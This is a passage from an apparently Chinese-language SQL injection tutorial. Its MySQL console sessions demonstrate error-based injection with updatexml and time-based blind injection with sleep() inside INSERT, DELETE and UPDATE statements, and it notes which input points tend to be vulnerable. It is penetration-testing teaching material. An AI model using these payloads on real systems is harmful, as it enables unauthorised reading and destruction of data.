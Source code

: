 #### **1.3.2 布尔盲注**

```
mysql> insert into admin (id,username,password) values (2,"or updatexml(1,concat(0x7e,(version())),0) or","admin");
Query OK, 1 row affected (0.00 sec)

mysql> select * from admin;
+------+-----------------------------------------------+----------+
| id   | username                                      | password |
+------+-----------------------------------------------+----------+
|    1 | admin                                         | admin    |
|    1 | and 1=1                                       | admin    |
|    2 | or updatexml(1,concat(0x7e,(version())),0) or | admin    |
+------+-----------------------------------------------+----------+
3 rows in set (0.00 sec)

mysql> insert into admin (id,username,password) values (2,""or updatexml(1,concat(0x7e,(version())),0) or"","admin");
ERROR 1105 (HY000): XPATH syntax error: '~5.5.53'

#delete 注入很危险，很危险，很危险，切记不能使用 or 1=1 ，or 右边一定要为false
mysql> delete from admin where id =-2 or updatexml(1,concat(0x7e,(version())),0);
ERROR 1105 (HY000): XPATH syntax error: '~5.5.53'
```

### 1.4 insert,delete,update  

insert,delete,update 主要是用到盲注和报错注入，此类注入点不建议使用 sqlmap 等工具，会造成大量垃圾数据，一般这种注入会出现在 注册、ip 头、留言板等等需要写入数据的地方, 同时这种注入不报错一般较难发现，我们可以尝试性插入、引号、双引号、转义符 \ 让语句不能正常执行，然后如果插入失败，更新失败，然后深入测试确定是否存在注入

#### 1.4.1 报错

```
#int型 可以使用 运算符 比如 加减乘除 and or 异或 移位等等
mysql> insert into admin values (2+if((substr((select user()),1,1)='r'),sleep(5),1),'1',"admin");
Query OK, 1 row affected (5.00 sec)

mysql> insert into admin values (2+if((substr((select user()),1,1)='p'),sleep(5),1),'1',"admin");
Query OK, 1 row affected (0.00 sec)

#字符型注意闭合不能使用and
mysql> insert into admin values (2,''+if((substr((select user()),1,1)='p'),sleep(5),1)+'',"admin");
Query OK, 1 row affected (0.00 sec)

mysql> insert into admin values (2,''+if((substr((select user()),1,1)='r'),sleep(5),1)+'',"admin");
Query OK, 1 row affected (5.01 sec)

# delete 函数 or 右边一定要为 false
mysql> delete from admin where id =-2 or if((substr((select user()),1,1)='r4'),sleep(5),0);
Query OK, 0 rows affected (0.00 sec)

mysql> delete from admin where id =-2 or if((substr((select user()),1,1)='r'),sleep(5),0);
Query OK, 0 rows affected (5.00 sec)

#update 更新数据内容
mysql> select * from admin;
+------+----------+----------+
| id   | username | password |
+------+----------+----------+
|    2 | 1        | admin    |
|    2 | 1        | admin    |
|    2 | 1        | admin    |
|    2 | admin    | admin    |
+------+----------+----------+
```